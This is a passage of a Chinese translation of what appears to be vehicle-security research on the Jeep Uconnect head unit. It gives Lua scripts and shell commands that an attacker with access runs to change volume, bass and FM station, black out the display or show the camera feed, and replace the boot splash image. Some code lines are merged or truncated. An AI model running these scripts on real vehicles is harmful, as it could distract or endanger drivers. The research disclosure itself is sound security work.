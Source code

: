 Uconnect系统的一个主要功能就是控制广播。攻击者可以很轻易地把广播音量设置成任意值。例如，如果攻击者知道现在播放的是爱司基地（Ace ofBase）的歌，他们可以把音量调整到一个合适的级别（也就是最合适的音量）。

    
    
    require "service"
    params = {}
    params.volume = tonumber(arg[1]) 
    x=service.invoke("com.harman.service.AudioSettings", "setVolume", params)
    

## 低音

有时候，比如在听2 Live Crew的时候，调高低音是唯一的选择。喜欢重低音的攻击者可以使用下面的脚本来调整相应的级别。

    
    
    require "service"
    params = {}
    params.bass = tonumber(arg[1]) x=service.invoke("com.harman.service.AudioSettings", "setEqualizer", params
    

## 电台（FM）

在路途中，最重要的任务之一就是选择一个合适的FM电台。通过编程LUA脚本也可以更换电台。

    
    
    require "service"
    Tuner = "com.harman.service.Tuner"
    service.invoke(Tuner, "setFrequency", {frequency = 94700})
    

## 显示屏

这里有很多很多种办法都可以修改Uconnect的显示状态，比如完全关闭显示屏或显示后置摄像头。下面的几个代码示例可以更改屏幕显示：

    
    
    require "service"
    x=service.invoke("com.harman.service.LayerManager", "viewBlackScreen", {}) 
    x=service.invoke("com.harman.service.LayerManager", "stopBlackScreen", {}) 
    x=service.invoke("com.harman.service.LayerManager", "viewCameraInput", {}) 
    x=service.invoke("com.harman.service.LayerManager", "stopViewInput", {}) 
    x=service.invoke("com.harman.service.LayerManager", "showSplash", {timeout = 2})
    

## 显示图片

你还可以更改头单元上的显示屏来显示你选中的图片。这张图片的大小和格式（png）必须是正确的。然后，这张照片必须放到文件系统上的某个位置。最后，你就能告诉头单元要显示这张照片。

    
    
    mount -uw /fs/mmc0/
    cp pic.png /fs/mmc0/app/share/splash/Jeep.png pidin arg | grep splash
    kill <PID>
    splash -c /etc/splash.conf &
    